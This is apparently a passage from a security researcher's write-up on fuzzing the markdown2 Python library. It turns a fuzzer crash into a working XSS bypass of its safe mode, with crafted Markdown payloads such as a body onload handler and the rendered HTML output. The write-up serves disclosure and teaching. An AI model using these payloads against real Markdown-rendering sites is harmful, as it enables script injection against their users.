 One lunch later, I came back to the above crash, generated by this input:

```
$ xxd crash-0e5b55ff18a08d9c55293417014d766f1e197074
00000000: e1db 040b 233c 756c 3e0a 3c6c 693e 0a00  ....#<ul>.<li>..
00000010: 0000 4000 2b20 2020 2020 200f 3c2f 6c69  ..@.+      .</li
00000020: 3e0a 3c2f 756c 0a3e 0a3c 703e 043c 2f70  >.</ul.>.<p>.</p
00000030: 3e0a 0a3c 7072 653e 3c63 6f64 653e 6d64  >..<pre><code>md
00000040: 352d 6231 36f8 f80b 1a                   5-b16....
```

With a bit of "testing it and seeing if it crashes", we can reduce this input down to

```md
</ul
>
<pre><code>
```

which sure is a strange piece of Markdown! So now that we have a crash, can we turn this into an XSS?

Adding a closing `>` to the first line

```md
</ul>
>
<pre><code>
```

seems to stop the crash itself from happening. If we then try to add an XSS payload:

```md
</ul>
>
<body onload=alert("hi")<pre><code>
```

markdown2, even in `--safe replace` mode, will output our XSS!

```html
<p>[HTML_REMOVED]
&gt;
<body onload=alert("hi")[HTML_REMOVED][HTML_REMOVED]</p>
```

Adding another attribute for an `<img src=a onerror=` XSS didn't seem to work at first:

```md
</ul>
>
<img src=a onerror=alert("hi")<pre><code>
```

gives

```md
<p>[HTML_REMOVED]
&gt;
&lt;img src=a onerror=alert("hi")[HTML_REMOVED][HTML_REMOVED]</p>
```
